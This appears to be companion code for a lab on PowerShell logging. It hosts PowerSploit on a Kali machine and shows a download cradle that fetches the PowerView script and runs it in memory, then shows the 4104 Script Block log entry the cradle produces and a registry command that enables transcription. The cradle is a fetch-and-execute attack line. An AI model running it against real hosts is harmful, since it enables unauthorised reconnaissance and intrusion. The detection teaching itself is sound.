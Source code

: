 
#### PowerShell Logging

##### Script Blocks

Commands to install PowerSploit and host it on the Kali host in the Attack Range environment.

```sh
sudo apt update
sudo apt install powersploit
cd /usr/share/windows-resources/powersploit
python3 -m http.server 1337
```

A PowerShell download cradle that can fetch and load the PowerView script into memory on a Windows host.

```powershell
Invoke-Expression (New-Object Net.Webclient).DownloadString("http://10.0.1.30:1337/Recon/PowerView.ps1")
```

The first of many associated PowerShell Script Block log entries (event ID 4104) for the above download cradle:

```xml
<Event xmlns="http://schemas.microsoft.com/win/events/event">
  <System>
    <Provider Name="Microsoft-Windows-PowerShell" Guid="{a0c1853b-5c40-4b15-8766-3cf1c58f985a}" /> 
    <EventID>4104</EventID> 
    <Level>5</Level> 
    --snip--
    <Execution ProcessID="5192" ThreadID="5164" /> 
    <Channel>Microsoft-Windows-PowerShell/Operational</Channel> 
    <Computer>ar-win-2.attackrange.local</Computer> 
    <Security UserID="S-1-5-21-1234998748-2444849041-1163457548-500" /> 
  </System>
  <EventData>
    <Data Name="MessageNumber">1</Data> 
    <Data Name="MessageTotal">1</Data> 
    <Data Name="ScriptBlockText">Invoke-Expression (New-Object Net.Webclient).DownloadString("http://10.0.1.30:1337/Recon/PowerView.ps1")</Data> 
    <Data Name="ScriptBlockId">3d296d00-b3bf-426c-9f87-9215896c146e</Data> 
    <Data Name="Path" /> 
  </EventData>
</Event>
```


##### Transcription

The `reg` command to enable PowerShell transcription.

```sh
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows\PowerShell\Transcription" /v EnableTranscripting /t REG_DWORD /d 1 /f
```
